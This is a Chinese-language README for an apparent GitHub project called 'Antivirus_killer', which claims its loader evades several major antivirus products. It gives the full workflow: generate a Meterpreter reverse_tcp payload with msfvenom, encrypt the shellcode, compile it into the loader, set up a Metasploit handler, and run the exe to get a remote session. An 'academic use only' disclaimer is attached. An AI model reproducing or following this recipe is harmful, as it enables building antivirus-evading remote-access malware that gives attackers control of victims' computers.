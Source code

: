 # Antivirus_killer
免杀主流防病毒软件<br />
测试于2024年9月20日加载器2024_9_20(需配合新版加密器)可过最新版火绒、360核晶模式、windows自带杀软、卡巴斯基<br />
该项目仅供学术交流参考，请大家合法学习和使用项目
# 使用方法
## 生成shellcode
msfvenom LHOST=x.x.x.x LPORT=443 -p windows/x64/meterpreter/reverse_tcp -f c
## 加密shellcode 
将生成的shellcode复制到加密器.c的buf变量中并编译运行
## 编译加载器
将加密后的shellcode 复制到加载器的shellcode变量中编译
## 准备msf监听器
msfconsole<br />
use exploit/multi/handler<br />
set payload windows/x64/meterpreter/reverse_tcp<br />
set LHOST x.x.x.x<br />
set LPORT 443<br />
run<br />
## 双击编译好的exe观察是否上线
